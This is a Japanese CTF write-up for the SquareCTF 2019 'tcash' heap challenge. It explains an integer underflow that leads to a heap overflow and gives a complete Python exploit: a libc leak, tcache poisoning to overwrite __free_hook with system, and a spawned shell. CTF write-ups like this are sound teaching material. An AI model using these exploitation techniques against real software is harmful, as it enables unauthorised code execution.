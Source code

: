 # [pwn 1000pts] tcash - SquareCTF 2019
64-bitで全部有効です。
```
$ checksec -f tcash
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   83 Symbols     Yes      0               4       tcash
```
ヒープ系問題で、malloc, write, print, freeできます。ただし、mallocは必ず0x6f8バイト確保されます。mallocする際に指定したサイズ(0<=size<=0x6f8)も保存されるのですが、デクリメントされています。サイズはint型なのでmallocで0を指定すると0xffffffffとなり、writeでヒープオーバーフローが発生します。
また、メニューで1337を指定すると`secret_chunk`関数が使われ、中で`malloc(0x308)`が2回実行され、各チャンクに書き込めます。ということで、ヒープオーバーフローでサイズを書き換えたチャンクをfreeし、さらにfdを`__free_hook`などに書き換えてやればOKです。
```python
from ptrlib import *

def malloc(index, size):
    sock.sendlineafter("> ", "1")
    sock.sendlineafter("?\n", str(index))
    sock.sendlineafter("size: \n", str(size))
    return

def write(index, data):
    sock.sendlineafter("> ", "2")
    sock.sendlineafter("?\n", str(index))
    sock.sendafter("data: \n", data)
    return

def read(index):
    sock.sendlineafter("> ", "3")
    sock.sendlineafter("?\n", str(index))
    r = sock.recvuntil("1) ")
    return r[:-3]

def free(index):
    sock.sendlineafter("> ", "4")
    sock.sendlineafter("?\n", str(index))
    return

def secret(index, data1, data2):
    sock.sendlineafter("> ", "1337")
    sock.sendlineafter("?\n", str(index))
    sock.sendafter("data 1: \n", data1)
    sock.sendafter("data 2: \n", data2)
    return

libc = ELF("/lib/x86_64-linux-gnu/libc-2.27.so")
#sock = Process("./tcash")
sock = Socket("tcash-a57a558adff75b59.squarectf.com", 7852)
libc_main_arena = 0x3ebc40

# libc leak
malloc(0, 0x6f8)
malloc(1, 0x6f8)
free(0)
malloc(0, 0x6f8)
libc_base = u64(read(0)[:8]) - libc_main_arena - 96
logger.info("libc base = " + hex(libc_base))

# heap overflow
free(0)
malloc(0, 0)
payload = b'A' * 0x6f8 + p64(0x311) + b"\n"
write(0, payload)
free(1)
payload = b'A' * 0x6f8 + p64(0x311) + p64(libc_base + libc.symbol("__free_hook")) + b"\n"
write(0, payload)

# overwrite __free_hook
secret(0, "dummy", p64(libc_base + libc.symbol("system")))

# get the shell!!
malloc(9, 0x8)
write(9, "/bin/sh\n")
free(9)

sock.interactive()
```

よし！
```
$ python solve.py 
[+] __init__: Successfully connected to tcash-a57a558adff75b59.squarectf.com:7852
[+] <module>: libc base = 0x7f388a679000
[ptrlib]$ cat /home/tcash/flag.txt
[ptrlib]$ flag-53AE19D1869BF54B5DDEF813
```

# 感想
デクリメントでオーバーフローする問題は初めてで面白かったです。
